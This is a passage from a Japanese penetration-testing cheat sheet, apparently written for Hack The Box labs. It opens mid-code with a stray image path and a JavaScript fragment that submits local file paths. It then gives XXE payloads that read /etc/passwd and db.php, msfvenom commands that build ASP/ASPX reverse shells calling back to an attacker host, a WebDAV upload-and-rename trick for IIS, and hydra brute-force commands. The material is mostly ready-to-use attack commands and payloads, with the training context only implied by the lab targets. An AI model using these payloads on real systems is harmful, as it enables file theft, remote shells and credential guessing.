 ``` bash
    }
}
xmlhttp.open("POST", "/scan", true);
xmlhttp.send("file:///etc/passwd");
xmlhttp.send("file:///home/min/user.txt");
```

### XML External Entity(XML外部実体参照)

XXEを悪用することで、サーバ内のファイルの取得や情報収集、SSRF攻撃など様々な攻撃に利用できる。

`<!ENTITY`を用いることで実体参照を呼び出すことができ、文字列の置換や、外部ファイルの内容を埋め込む。

そのため、XMLを送り込むことができる場合には、XXEを試すとよい。

``` xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file://etc/passwd" >]>

   # PHPの場合 
   <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">] >
   <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php">] >
<foo>&xxe;</foo>
```

参考：[XXE(XML外部実体参照)](/hackthebox-linux-bugbountyhunter#xxexml%E5%A4%96%E9%83%A8%E5%AE%9F%E4%BD%93%E5%8F%82%E7%85%A7)

### WebDavの悪用

- `davtest`でPUTが可能な場合はリバースシェルを取得できる可能性がある
- IIS5/IIS6を使用している場合は、[Renameの脆弱性](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav#iis5-6-webdav-vulnerability)がある

``` bash
# davtest
$ /usr/bin/davtest -url http://targethost.htb/

# エクスプロイトの生成
$ msfvenom -p windows/shell/reverse_tcp LHOST=$LHOST LPORT=4444 -f asp > shell.txt
$ msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -o rev.aspx

# cadaverでファイル転送とRename
$ cadaver http://targethost.htb
dav:/> put shell.txt
dav:/> copy shell.txt shell.asp;.txt
```

## ブルートフォース

``` bash
# シンプル認証
hydra -l admin -P /usr/share/wordlists/rockyou.txt targethost.htb -s 8080 http-get /manager
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/darkweb2017-top10000.txt targethost.htb http-get /manager
```
